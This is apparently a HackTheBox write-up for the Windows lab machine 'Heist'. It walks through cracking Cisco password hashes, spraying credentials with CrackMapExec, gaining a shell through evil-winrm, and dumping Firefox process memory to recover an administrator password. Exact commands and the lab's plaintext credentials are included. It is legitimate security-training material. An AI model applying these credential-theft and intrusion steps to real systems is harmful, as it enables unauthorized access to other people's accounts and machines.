# HackTheBox
------------------------------------
### IP: 10.129.96.157
### Name: Heist
### Difficulty: Easy
--------------------------------------------



I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.96.157 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-23 12:44 CDT
Nmap scan report for 10.129.96.157
Host is up (0.071s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-23T17:45:37
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.20 seconds
```

Looking at the site we find a Login portal for a support page:



Clicking into the page source we see we have the ability to login as a guest at `/login.php?guest=true`



Navigating here we are forwarded to `/issues.php` which has an exchange between admin and a user called Hazard, who has an attachment and states they need to be added as a user as well as mentioning issues with a Cisco router.



Clicking on the attachment we find some interesting information:



Lets crack these Cisco password hashes at: https://www.ifm.net.nz/cookbooks/passwordcracker.html

### Foothold





We can use HashCat to crack the type 5 password hash:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ hashcat secret_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

<SNIP>

Session..........: hashcat
Status...........: Running
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$pdQG$o8nrSzsGXeaduXrjlvKc91
Time.Started.....: Tue Jul 23 13:12:56 2024 (6 mins, 59 secs)
Time.Estimated...: Tue Jul 23 14:17:33 2024 (57 mins, 38 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3488 H/s (10.34ms) @ Accel:128 Loops:500 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 2282240/14344385 (15.91%)
Rejected.........: 0/2282240 (0.00%)
Restore.Point....: 2282240/14344385 (15.91%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: 335657 -> 335101
Hardware.Mon.#1..: Util:100%

$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent 
```

Cool, looks like a new password, `stealth1agent`

Lets add our known users to a file called users.txt and the cracked passwords to a file called passwords.txt. We can then use CrackMapExec to bruteforce:



We've found valid credentials: `hazard:stealth1agent`

Lets use these credentials in crackmapexec, this time with the `--rid-brute` flag to try to discover more users:



Lets add these newly discovered usernames to our user.txt file.

We can then use CME again for bruteforcing:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ crackmapexec smb 10.129.96.157 -u users.txt -p passwords.txt --continue-on-success | grep [+]
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nice, we found a match for chase. Lets try logging in with evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ evil-winrm -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.129.96.157

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
       
*Evil-WinRM* PS C:\Users\Chase\Documents> hostname
SupportDesk
```

We can now grab the user.txt flag:



### Privilege Escalation

Lets take a look at todo.txt on chase's Desktop:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Loading WinPEAS onto the target we see there are some cached firefox credentials.



And firefox.exe is running:



Lets use https://github.com/djhohnstein/SharpWeb/ to help with this.

Unfortunately this did not work, and I'm not positive why:

```
*Evil-WinRM* PS C:\temp> .\SharpWeb.exe firefox


=== Checking for Firefox (Current User) ===

*Evil-WinRM* PS C:\temp>
```

Lets see the processes running. First we'll grab a copy of procdump64 from https://live.sysinternals.com/ and upload it to the target.

Next lets use `get-process firefox` to view the processes:

```
*Evil-WinRM* PS C:\temp> get-process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1089      68   134228     211896       5.28   6400   1 firefox
    347      19    10132      38372       0.14   6524   1 firefox
    401      34    32060      91816       1.14   6732   1 firefox
    378      28    22028      58292       0.42   6928   1 firefox
    355      25    16512      38620       0.09   7156   1 firefox
```

Now lets run:

```
*Evil-WinRM* PS C:\temp> ./procdump64.exe -ma 6400 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[01:14:32] Dump 1 initiated: C:\temp\firefox.exe_240724_011432.dmp
[01:14:33] Dump 1 writing: Estimated dump file size is 491 MB.
[01:14:35] Dump 1 complete: 491 MB written in 3.1 seconds
[01:14:36] Dump count reached.
```

With `-ma 6400` being the first process id for firefox.

Cool, we now have a process dump for firefox:

```
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/24/2024   1:14 AM      502760671 firefox.exe_240724_011432.dmp
-a----        7/24/2024  12:22 AM         600580 PowerUp.ps1
-a----        7/24/2024   1:09 AM         424856 procdump64.exe
-a----        7/24/2024  12:36 AM         598528 SharpWeb.exe
-a----        7/24/2024  12:27 AM        2387456 winPEASx64.exe
```

We can now download the file locally to our attacking machine:

```
*Evil-WinRM* PS C:\temp> download C:\temp\firefox.exe_240724_011432.dmp /home/ryan/HTB/Heist/firefox.exe_240724_011432.dmp
Info: Downloading C:\temp\firefox.exe_240724_011432.dmp to /home/ryan/HTB/Heist/firefox.exe_240724_011432.dmp

                                                             
Info: Download successful!
```

Once back on our machine we can use `strings` and `grep` to look for anything interesting:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ strings firefox.exe_240724_011432.dmp| grep pass 
```

Cool, looks like we've found something:



`administrator:4dD!5}x/re8]FBuZ`


Lets use these credentials to log back in with evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ evil-winrm -u administrator -p '4dD!5}x/re8]FBuZ' -i 10.129.96.157

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
```

We can now grab the final flag:



Thanks for following along!

-Ryan

---------------------------------------------------

